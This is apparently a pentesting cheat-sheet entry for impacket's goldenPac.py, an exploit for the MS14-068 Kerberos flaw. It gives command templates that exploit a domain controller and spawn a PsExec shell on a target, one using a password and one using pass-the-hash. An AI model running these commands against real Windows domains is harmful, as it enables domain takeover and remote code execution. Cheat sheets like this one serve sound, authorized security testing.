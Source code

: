 # goldenPac (imp)

% impacket-kerberos, windows, kerberos, 88, goldenPAC, MS14-068

#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 

## desc
```
MS14-068 Exploit. It establishes a SMBConnection and PSEXEcs the target or saves the TGT for later
use.
```

## connect (creds)
```bash
goldenPac.py -dc-ip <dc_ip> <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## connect (pth)
```bash
goldenPac.py -dc-ip <dc_ip> <domain_fqdn>/-hashes :<nt_hash> <domain_fqdn>/<user>@<target_fqdn>
```